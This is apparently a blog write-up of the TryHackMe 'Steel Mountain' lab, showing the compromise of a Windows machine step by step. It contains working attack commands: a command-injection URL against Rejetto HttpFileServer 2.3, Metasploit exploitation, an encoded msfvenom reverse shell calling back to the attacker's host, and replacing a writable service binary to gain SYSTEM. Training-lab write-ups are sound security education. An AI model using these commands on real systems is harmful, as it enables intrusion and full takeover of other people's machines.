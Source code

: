 ```yaml
---
layout: post
title: SteelMountain [TryHackMe]
description: 
tags: ['security', 'tryhackme']
terms: ['linux', 'security', 'thm']
icon: shield-exclamation
---
```


Attacking a Windows based machine.

Includes:
- Recon
  - nmap
  - web apps
  - searchsploit
- Exploit
  - metasploit
- Privilege esculation
  - Enumeration
  - Misconfiguration & exploiting services
  - msfvenom

#### Nmap

Use nmap to scan windows machine. `-Pn` is specified because windows was ignoring icmp requests.

```bash
$> sudo nmap -sS -sV -Pn -vv 10.10.30.80 -oA nmap-results.txt
...

PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
8080/tcp  open  http               syn-ack ttl 127 HttpFileServer httpd 2.3
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
```

#### Search for exploits

Find exploits related to the service running on port 8080, Rejetto Http File Server 2.3.

```bash
$> searchsploit "httpfileserver"
...

Rejetto HttpFileServer 2.3.x - Remote Command Execution (3) | windows/webapps/49125.py

$> searchsploit -p windows/webapps/49125.py
[CVE2014-6287](https://www.exploit-db.com/exploits/39161)
```

We can mirror the script shown in searchsploit and take a look at what it does. It just forms a url with a specific search query parameter that allows for remote code execution and makes a request to the service to perform that action.

```bash
$> searchsploit -m windows/webapps/49125.py
$> mv 49125.py command_exec.py

$> python3 command_exec.py 10.10.30.80 8080 whoami
http://10.10.30.80:8080/?search=%00{.+exec|whoami.}
```

The room tells us to use metasploit to perform the exploit though, maybe I will revisit scripting the exploit myself at a later date.

#### Metasploit

Using metasploit to exploit [`CVE2014-6287`](https://www.exploit-db.com/exploits/39161).

```bash
$> sudo msfconsole
msfconsole> search cve:2014-6287
...
0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

msfconsole> use 0 
msfconsole> show options
...

msfconsole> set RHOSTS <ip>
msfconsole> set RPORT 8080
msfconsole> exploit

meterpreter> 
```
This gives us a meterpreter shell as bill now.

#### Enumeration

Performing enumeration to find possible privilege esculation attack vectors using [`PowerUp`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).

```bash
$> wget -c https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
meterpreter> upload /opt/PowerUp.ps1

meterpreter> load powershell
meterpreter> powershell_shell
```

```powershell
PS >. .\PowerUp.ps1
PS > Invoke-AllChecks
...

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```

This shows us a service called `AdvancedSystemCareService9` the our user can restart and also has write access to the directory, so we can override the existing executable with our own.

#### `msfvenom` Reverse shell

Creating the reverse shell exe
```bash
$> msfvenom -p windows/shell_reverse_tcp LHOST=10.9.7.128 LPORT=4444 -e x86/shikata_ga_nai -f exe -o msfvenom_reverse_shell.exe
```

Create a listener
```bash
$> nc -lvnp 4444
```

Upload and execute as a service
```bash
meterpreter> upload /opt/msfvenom_reverse_shell.exe
meterpreter> powershell_shell

PS> net stop AdvancedSystemCareService9
PS> cp .\msfvenom_reverse_shell.exe 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe'

PS> net start AdvancedSystemCareService9
```

And we have an admin shell via our netcat listener